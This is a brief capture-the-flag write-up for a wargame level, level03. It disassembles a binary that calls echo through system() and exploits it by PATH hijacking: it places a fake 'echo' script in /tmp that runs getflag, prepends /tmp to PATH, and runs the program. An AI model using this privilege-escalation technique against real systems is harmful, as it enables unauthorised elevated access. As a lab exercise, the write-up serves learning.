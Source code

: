 A binary file is in our home.
We disassemble the bin using https://dogbolt.org/ .

```c
return system("/usr/bin/env echo Exploit me");
```
We can exploit this line by creating a bash [script named echo](./echo) that will use the `getflag` command.

We make this script executable
```bash
chmod +x /tmp/echo
```
Then we set the `PATH` so that the bash script we just created can be executed.
```bash
export PATH=/tmp/:$PATH
```
Finally we can just run the `level03` program
```bash
./level03
```